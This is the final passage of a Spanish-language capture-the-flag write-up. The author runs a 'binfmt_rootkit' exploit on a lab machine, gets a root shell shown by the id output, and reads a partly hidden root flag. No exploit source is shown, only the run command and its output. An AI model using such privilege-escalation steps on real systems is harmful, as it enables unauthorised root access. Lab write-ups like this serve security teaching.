 Entonces lo vamos a dejar así, pipeando el contenido del exploit a nuestro binario.
![Write-up Image](images/Screenshot_28.png)

Entonces, ahora solo falta guardar y ejecutar el exploit.
```console
(remote) rehan@juggling:/home/rehan$ ./binfmt_rootkit 
uid=0(root) euid=0(root)
# id
uid=0(root) gid=1001(rehan) groups=1001(rehan)
```

Y nos convertimos en `root`, podemos leer la flag.
```console
# cat root.txt
5401cd51a7ec8dd...
```

¡Y ya estaría!

Happy Hacking! 🚀